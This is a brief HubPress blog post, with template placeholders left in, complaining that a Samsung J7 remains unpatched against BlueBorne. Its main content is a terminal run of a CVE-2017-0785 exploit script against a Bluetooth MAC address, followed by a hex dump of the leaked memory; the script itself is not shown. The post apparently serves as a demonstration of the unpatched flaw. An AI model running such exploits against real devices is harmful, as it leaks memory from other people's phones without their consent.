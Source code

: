 // = Your Blog title
// See https://hubpress.gitbooks.io/hubpress-knowledgebase/content/ for information about the parameters.
// :hp-image: /covers/cover.png
// :published_at: 2019-01-31
// :hp-tags: HubPress, Blog, Open_Source,
// :hp-alt-title: My English Title
= "Happy" to see that Samsung doesn't give a shit about BlueBorne.

:hp-tags: Samsung, J7, BlueBorne
`
─[$]› python CVE-2017-0785.py TARGET=28:27:BF:3A:17:8A
[+] Exploit: Done
\x03\x00\x00\x00+\x00\x00    \x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x04\x00\x00\x05\x00\x00\x06\x00\x00\x07\x00\x0\x00\x00    \x00    
00000000  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
*
00000050  00 00 00 00  00 02 00 01  ea 3f 01 00  00 00 00 00  │····│····│·?··│····│
00000060  00 00 75 30  00 00 00 08  f3 95 73 88  ce 93 12 b7  │··u0│····│··s·│····│
...
`